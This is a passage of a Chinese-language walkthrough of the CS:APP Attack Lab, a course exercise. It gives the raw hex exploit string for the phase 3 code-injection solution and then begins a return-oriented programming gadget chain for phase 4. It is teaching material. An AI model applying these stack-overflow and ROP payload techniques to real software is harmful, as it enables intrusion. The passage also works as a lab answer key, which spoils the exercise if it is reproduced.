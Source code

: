 ```assembly
0000000000000000 <.text>:
       0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
       7:   68 fa 18 40 00          pushq  $0x4018fa
       c:   c3                      retq             
```

再和上题类似填充至 40 字节，附上跳转地址。再将 `cookie` 转化为 16 进制的字符串附到跳转地址后面，根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa` 就是 `35 39 62 39 39 37 66 61` ，因而最终答案是：

```c
48 c7 c7 a8 dc 61 55 		/* 注入代码 */
68 fa 18 40 00 
c3 
30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00		/* touch3函数的地址 */
35 39 62 39 39 37 66 61  /* cookie 这里最后还可以加上 00 ,用作字符串结束标志，但hexmatch里调用的是strncmp，只比较前9个字符，所以加不加都可以 */
```



## **Part II: Return-Oriented Programming**

这部分的两题是Return-Oriented Programming，引入了栈随机化和限制了可执行代码区域。

>   It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
>
>   It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

栈随机化的思想使得栈的位置在程序每次运行时都有变化，因此，即使许多机器都运行同样的代码，它们的栈地址都是不同的。栈随机化使得栈上的地址不确定，**无法直接跳转到栈上的指定地址**。另一种是限制了哪些内存区域能存放可执行代码。在典型的程序中，只有保存编译器产生的代码的那部分内存才需要是可执行的。其他部分可以被限制为只允许读和写**。限制可执行代码区域就使得注入在栈上的代码无法执行。**

所以需要改变攻击方式，改用ROP攻击，**ROP的策略是识别现有程序中的字节序列由一条或多条指令组成，后跟指令ret**。这样的段称为*gadget*。简单来说就是利用函数自带的一些*gadget*，进行提取，使它们构成一个攻击链，利用程序自身的代码片段进行攻击，就能绕过这些安全限制。ROP 的具体讲解查看官方文档。

### Phase 4

这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。

原本是想直接找`pop %rdi`但所给的`gadget farm`并没有，退而求其次，可以通过`pop %rax`将cookie从栈内读到`rax`中再通过`movq %rax ,%rdi`传送到第一个参数寄存器`rdi`上。通过查看`gadget farm`，可以发现有这样`gadgets`，如下：

```assembly
00000000004019a7 <addval_219>:
 928   4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax                                             
 929   4019ad:   c3                      retq
```

关于这些`gadgets`的查找，可以借助指导文档和vim的查找功能。 `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：
